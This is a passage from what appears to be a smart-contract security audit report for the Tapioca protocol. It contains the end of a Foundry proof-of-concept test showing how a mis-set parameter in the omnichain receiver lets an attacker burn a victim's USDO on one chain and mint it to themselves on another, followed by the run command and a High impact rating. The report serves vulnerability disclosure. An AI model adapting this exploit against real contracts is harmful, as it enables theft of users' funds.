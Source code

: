 ```solidity
            address(aUsdo), 
            OFTMsgCodec.addressToBytes32(address(0)), // guid (not needed for the PoC)
            abi.encodePacked(OFTMsgCodec.addressToBytes32(address(makeAddr("victim"))), toeComposeMsgVictim), // message (srcChainSender becomes victim because of wrong parameter set)
            address(0), // executor (not used)
            bytes("") // extra data (not used)
        );

        // Back to chain B. Finally, the burnt tokens from the victim in chain A get minted in chain B with the attacker set as the destination
        {
            uint64 tokenAmountSD = usdoHelper.toSD(100 ether, bUsdo.decimalConversionRate());
            
            vm.startPrank(endpoints[bEid]);
            UsdoReceiver(address(bUsdo)).lzReceive(
                Origin({sender: OFTMsgCodec.addressToBytes32(address(aUsdo)), srcEid: aEid, nonce: 0}), 
                OFTMsgCodec.addressToBytes32(address(0)), // guid (not needed for the PoC)
                abi.encodePacked( // same as _buildOFTMsgAndOptions()
                   OFTMsgCodec.addressToBytes32(makeAddr("attacker")),
                    tokenAmountSD
                ), // message
                address(0), // executor (not used)
                bytes("") // extra data (not used)
            );

        }

        // Finished: victim gets drained, attacker obtains balance of victim
        assertEq(bUsdo.balanceOf(makeAddr("victim")), 0);
        assertEq(bUsdo.balanceOf(makeAddr("attacker")), 100 ether);
          
    } 
```

Run the poc with the following command: `forge test --mt testVuln_stealUSDOFromATargetUserDueToWrongParameter`

The proof of concept shows how in the end, the victim’s `aUsdo` balance will become 0, while all the `bUsdo` in chain B will be minted to the attacker.


## Impact

High. An attacker can drain any USDO holder’s balance and transfer it to themselves.

## Code Snippet

https://github.com/sherlock-audit/2024-02-tapioca/blob/main/Tapioca-bar/gitmodule/tapioca-periph/contracts/tapiocaOmnichainEngine/TapiocaOmnichainReceiver.sol#L224

## Tool used
